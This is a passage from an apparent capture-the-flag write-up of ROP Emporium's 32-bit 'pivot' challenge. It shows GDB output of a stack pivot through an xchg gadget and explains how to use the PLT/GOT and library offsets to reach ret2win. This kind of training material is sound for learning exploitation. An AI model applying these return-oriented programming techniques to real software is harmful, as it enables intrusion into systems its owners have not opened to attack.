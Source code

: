 And after the exchange gadget is executed, `ESP` points to the address where longer chain is saved and the program tries executing the instructions saved at that address. GDB gets a segmentation fault since the address contains`0xdeadbeef` at this stage.

```bash
   0x804889f <pwnme+173>          leave
   0x80488a0 <pwnme+174>          ret
    ↓
   0x80488c0 <usefulGadgets>      pop    eax
   0x80488c1 <usefulGadgets+1>    ret

   0x80488c2 <usefulGadgets+2>    xchg   eax, esp
 ► 0x80488c3 <usefulGadgets+3>    ret    <0xdeadbeef>
```

The updated registers are listed and it can be seen that `ESP` points to the desired address.

```bash
 EAX  0xfff4de88 ◂— 0xa /* '\n' */
 EBX  0x0
 ECX  0xfff4de50 ◂— 0x41414141 ('AAAA')
 EDX  0xf7fa189c (_IO_stdfile_0_lock) ◂— 0x0
 EDI  0x0
 ESI  0xf7fa0000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d6c
 EBP  0x41414141 ('AAAA')
 ESP  0xf7dc6f10 ◂— 0xdeadbeef
 EIP  0x80488c3 (usefulGadgets+3) ◂— ret
```

We have successfully pivoted the stack to the desired address and now the longer ROP chain has to be built to get the flag.

## Getting the flag

### PLT and GOT

On reading the rest of the problem description, it is understood that we need to call the `ret2win` function dynamically imported from `libpivot32.so`. But instead of `ret2win`, another function from the same library, `foothold_function` is imported and used in the binary. The rest of the challenge requires the knowledge of PLT and GOT and their working. You can read about them in Appendix A of ropemporium's [beginner's guide](https://ropemporium.com/guide.html). I would also suggest [this](https://www.youtube.com/watch?v=kUk5pw4w0h4) video since it explains the working with a working example.

The `foothold_function` has an entry in the GOT but it needs to be populated. So, the function has to be called. We also have to find the offset between the `foothold_function` and the `ret2win` function in `libpivot32.so`. Once, the GOT entry is populated, the address of the desired function can be calculated by adding the offset to the address of `foothold_function` and calling it.

### Finding the offset

I used `objdump` command to dump the source assembly of `libpivot32.so` and `grep` to find their offsets from the start of the binary.
